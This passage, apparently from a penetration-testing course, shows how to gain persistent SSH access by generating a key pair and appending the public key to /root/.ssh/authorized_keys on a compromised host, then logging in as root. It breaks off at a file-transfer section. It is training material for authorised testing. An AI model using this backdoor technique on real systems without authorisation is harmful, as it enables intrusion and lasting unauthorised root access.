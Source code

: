 Note that we used the command 'chmod 600 id\_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.

If we find ourselves with write access to a users`/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with `ssh-keygen` and the `-f` flag to specify the output file:

Privilege Escalation

```shell
6165@htb[/htb]$ ssh-keygen -f key Generating public/private rsa key pair. Enter passphrase (empty for no passphrase): ******* Enter same passphrase again: ******* Your identification has been saved in key Your public key has been saved in key.pub The key fingerprint is: SHA256:...SNIP... user@parrot The key's randomart image is: +---[RSA 3072]----+ | ..o.++.+ | ...SNIP... | . ..oo+. | +----[SHA256]-----+
```

This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine. Let us copy `key.pub`, then on the remote machine, we will add it into `/root/.ssh/authorized_keys`:

Privilege Escalation

```shell
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Now, the remote server should allow us to log in as that user by using our private key:

Privilege Escalation

```shell
6165@htb[/htb]$ ssh root@10.10.10.10 -i key root@remotehost#
```

As we can see, we can now ssh in as the user `root`. The [Linux Privilege Escalation](https://academy.hackthebox.com/module/details/51) and the [Windows Privilege Escalation](https://academy.hackthebox.com/module/details/67) modules go into more details on how to use each of these methods for Privilege Escalation, and many others as well.

---
## Transferring Files

___

During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

___

## Using wget
